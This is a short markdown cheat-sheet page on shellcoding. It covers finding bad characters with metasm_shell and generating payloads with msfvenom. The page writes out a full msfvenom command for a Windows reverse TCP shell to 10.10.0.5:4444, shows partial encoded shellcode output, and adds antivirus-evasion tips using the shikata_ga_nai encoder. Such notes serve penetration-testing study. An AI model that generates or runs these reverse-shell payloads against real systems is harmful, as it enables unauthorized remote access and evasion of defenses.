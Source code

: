 ```yaml
---
title: Shellcoding
description: Writing shellcode
---
```


# Shellcoding

## Avoiding bad chars

You can use `metasm_shell` to detect bad chars in your shellcode :

```bash
$ /opt/metasploit/tools/exploit/metasm_shell.rb
type "exit" or "quit" to quit
use ";" or "\n" for newline
type "file <file>" to parse a GAS assembler source file

metasm >
```

### Basic examples

Substitute `1000` from a register :

```bash
metasm > sub esp,1000
"\x81\xec\xe8\x03\x00\x00"

metasm > add esp,-1000
"\x81\xc4\x18\xfc\xff\xff"
```

Set a register to `0` :

```bash
metasm > mov eax,0
"\xb8\x00\x00\x00\x00"

metasm > xor eax,eax
"\x31\xc0"
```

Set a register to `1` :

```bash
metasm > mov eax,1
"\xb8\x01\x00\x00\x00"

metasm > xor eax,eax
"\x31\xc0"
metasm > inc eax
"\x40"
```

## Msfvenom

Generates shellcode with `msfvenom`.

- List encoders : `msfvenom -l encoders`
- List payloads : `msfvenom -l payloads`
- List formats : `msfvenom -l formats`

### Basic example

```bash
$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.0.5 LPORT=4444 EXITFUNC=thread -f python -b '\x00\x0a\x0d' -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xdd\xc6\xd9\x74\x24\xf4\xbd\x25\xb1\xf0\x63"
shellcode += b"\x5a\x31\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17"
shellcode += b"\x83\xcf\x4d\x12\x96\xf3\x46\x51\x59\x0b\x97"
shellcode += b"\x36\xd3\xee\xa6\x76\x87\x7b\x98\x46\xc3\x29"
[...]
```

- `-a` : Architecture (ex: `x86`).
- `-p` : Payload (ex: `windows/shell_reverse_tcp`, `linux/x86/meterpreter/reverse_tcp`).
- `-f` : Output format (ex: `python`, `c`, `raw`).
- `-b` : Badchars (ex: `\x00` null byte, `\x0a` line feed, `\x0d` carriage return).
- `-v` : Variable name (ex: `buf`, `shellcode`)
- `EXITFUNC` : Use `thread` to avoid crashing the target application.

### AV Evasion

- `-e <encoder>` : Specify an encoder (ex: `86/shikata_ga_nai`).
- `-i <int>` : Number of encoding iterations.

The downside of adding more iterations is that the shellcode size increases every iteration.

### Limits size

- `-s <int>` : Maximum size of the shellcode (in bytes)

